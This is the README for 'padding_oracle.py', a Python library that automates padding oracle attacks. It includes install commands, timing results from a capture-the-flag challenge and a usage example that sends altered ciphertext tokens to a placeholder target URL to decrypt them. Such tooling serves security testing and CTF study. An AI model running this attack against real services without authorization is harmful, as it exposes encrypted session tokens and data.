 # padding_oracle.py

Fast threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script for Python 3.

## Install

PyPI:

```shell
pip3 install -U padding_oracle
```

GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Usage

Let's say we are going to test `https://the.target.site/api/?token=BASE64_ENCODED_TOKEN`

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests, string

sess = requests.Session() # for connection pool
url = 'https://the.target.site/api/'

def check_decrypt(cipher: bytes):
    resp = sess.get(url, params={'token': base64_encode(cipher)})

    if 'failed' in resp.text:
        return False
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

cipher = base64_decode('BASE64_ENCODED_TOKEN')
# becomes IV + block1 + block2 + ...
assert len(cipher) % 16 == 0

plaintext = padding_oracle(
    cipher, # cipher bytes
    block_size = 16,
    oracle = check_decrypt,
    num_threads = 16,
    chars = string.printable # possible plaintext chars
)
```

This package also provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

## License

This project is licensed under the terms of the MIT license.

<!-- PiuPiuPiu -->
